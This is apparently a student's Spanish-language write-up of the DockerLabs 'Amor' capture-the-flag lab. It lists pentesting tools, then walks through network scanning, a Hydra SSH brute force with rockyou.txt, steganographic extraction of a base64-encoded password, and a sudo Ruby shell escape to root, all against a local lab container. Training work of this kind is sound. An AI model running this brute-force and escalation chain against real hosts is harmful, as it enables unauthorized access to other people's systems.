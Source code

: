 ## DockerLabs - Reto AMOR

1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
##RTA
Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |

🛠 Prerrequisitos
Sistema base: Kali Linux



Docker instalado:

sudo apt install docker.io

2. 🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/

Descomprimir recursos (si aplica):

unzip amor.zip
Otorgar permisos y ejecutar:

chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

ip add
Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:


sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:


gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:


cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:


scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:


steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

🧑‍💻 Escalamiento de Privilegios

Accedemos como otro usuario:


su oscar
Comprobamos acceso con sudo:


sudo -l
Acceso a bash mediante Ruby:


sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami



🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.



🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

🔁 Diagrama de Flujo
![DIAGRAMA DE FLUJO](Imagenes/ACCC.png)


📌 Créditos
Laboratorio original: dockerlabs.es 
